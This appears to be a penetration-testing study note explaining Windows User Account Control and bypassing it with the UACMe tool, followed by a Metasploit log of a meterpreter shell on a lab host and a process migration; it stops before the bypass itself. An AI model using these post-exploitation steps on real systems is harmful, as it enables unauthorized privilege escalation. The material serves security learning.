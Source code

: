 - User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.
- UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrators group.
- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt, whereas a privileged user will be prompted with a consent prompt.
- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

<br />

#### Bypassing UAC With UACMe    

- In order to successfully bypass UAC, we will need to have access to a user account that is a part of the `local administrators group` on the Windows target system.
- UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.
- UAC has various integrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation.
- There are multiple tools and techniques that can be used to bypass UAC, however, the tool and technique used will depend on the version of Windows running on the target system.
- UACMe is an open source, robust privilege escalation tool developed by @hfire0x. It can be used to bypass Windows UAC by leveraging various techniques.
  - GitHub: https://github.com/hfiref0x/UACME
- The UACME GitHub repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.
- It allows attackers to execute malicious payloads on a Windows target with administrative/elevated privileges by abusing the inbuilt Windows AutoElevate tool.
- The UACMe GitHub repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target

<br />

i have a session with user `admin` who is a member of `administrators` group  

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > sessions 

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  1         meterpreter x86/windows  VICTIM\admin @ VICTIM  10.10.22.2:4444 -> 10.4.23.226:49387 (10.4.23.226)

msf6 exploit(windows/http/rejetto_hfs_exec) > sessions 1
[*] Starting interaction with 1...

======================================================
migrate from x86 meterpreter to x64 meterpreter
======================================================
meterpreter > sysinfo 
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > pgrep explorer
2956
meterpreter > migrate 2956
[*] Migrating from 1816 to 2956...
[*] Migration completed successfully.
meterpreter > sysinfo 
```